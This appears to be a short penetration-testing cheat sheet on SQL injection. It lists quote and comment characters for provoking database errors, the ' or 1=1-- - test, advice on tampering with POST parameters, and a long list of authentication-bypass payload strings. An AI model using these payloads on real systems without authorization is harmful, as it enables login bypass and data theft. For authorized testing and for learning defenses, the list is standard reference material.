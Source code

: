 # SQL injection
## Basic technique
Stick ' , " , ; , -- , ## , /**/.... in a parameter and see if it throws a database error (and note what kind
Another simple test:
```console
' or 1=1-- -
```
Other tests:
```console
'
"
`
')
")
`)
'))
"))
`))
%27
" / %22
; / %3B
%%2727
%25%27
```
## POST parameters
You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a ' at the end, like lang=en'.
## Authentication bypass
```console
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
```